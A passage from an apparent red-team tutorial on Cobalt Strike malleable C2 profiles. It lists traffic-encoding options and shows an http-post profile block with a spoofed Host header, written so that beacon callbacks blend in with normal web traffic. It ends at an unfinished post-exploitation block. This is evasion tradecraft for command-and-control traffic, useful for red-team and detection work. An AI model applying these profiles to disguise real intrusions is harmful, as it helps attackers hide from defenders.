 There are a few options available when it comes to data encoding and transformation. For example, you may choose to netbios encode the data to transmit, prepend some information, and then base64 encode the whole package.

- base64 - Base64 encode data that is encapsulated in various sections, in the exable above the cookie value `cf_` contains encoded metadata to be sent back to the CS server.
- base64url - URL-safe Base64 Encode, this is typically used when sending data back in a URL parameter and the data needs to be URL safe so as to not break the communcation stream.
- mask - XOR mask w/ random key, this encodes and encrypts the data within a XOR stream with a random key, typically used in combination with other encoding to obfuscate the data stream.
- netbios - NetBIOS Encode 'a'  it encodes as netbios data in lower case.
- netbiosu - NetBIOS Encode 'A', another form of netbios encoding.

#### POST Section

    http-post {
        set uri "/web/auth.php /admin/login.php";
    
        client {
            header "Accept" "*/*";
            header "Host" "zsec.uk";
            header "Connection" "Close";
    
            id {
                netbios;
                base64url;
                parameter "key";
            }
    
            output {
                print;
            }
        }
    
        server {
            header "Pragma" "no-cache";
            header "Connection" "close";
    
            output {
                print;
            }
        }
    }

Again like the GET section above, the POST section states how information should be sent in a POST request, it has the added benefit that specifics such as body content and other parameters can be set to enable you to blend in.

### Post Exploitation

Customising the GET and POST requests is just the beginning, the next few sections of the profile is where the magic of post exploitation customisation lives including how the beacon looks in memory, how migration and beacon object files affect the indicators of compromise and much much more.

    post-ex {
        